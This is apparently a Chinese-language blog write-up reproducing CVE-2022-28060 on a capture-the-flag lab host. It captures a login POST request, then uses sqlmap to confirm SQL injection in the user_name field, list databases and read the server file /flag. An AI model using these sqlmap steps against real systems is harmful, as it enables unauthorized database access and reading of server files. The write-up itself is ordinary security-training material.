 ```yaml
---
title: CVE-2022-28060
subtitle:
date: 2025-03-14T12:25:22+08:00
slug: 5287c03
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/fbdef1d41c2d0796f14b0ac7d0745f34.png)
登录界面抓包

![](images/dd38d280c99453e514df2800c0519d66.png)
保存到sqlmap.txt文件

```
POST /includes/login.php HTTP/1.1
Host: eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/
Cookie: PHPSESSID=mffqfi2m3ekldslts7b7kr0avm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_name=admin&user_password=123&login=
```

尝试探测，找到哪个字段存在注入点

```
sqlmap -r sqlmap.txt --batch
```



![](images/c37592f81ddd5d3bd105961850e2ae28.png)
找到注入点为user_name，暴力破解数据库

```
sqlmap -r sqlmap.txt --batch --dbs
```



![](images/5cce3304081278a26f487af6608d0706.png)
在mysql数据库中查找flag

```
sqlmap -r sqlmap.txt --batch -D "mysql" --file-read "/flag"
```



![](images/914419ee8f9c209a35145f1f5c4883e4.png)
读取flag

```
cat /root/.local/share/sqlmap/output/eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/files/_flag
```



![](images/8a567af596126f178d3c4e955f921287.png)
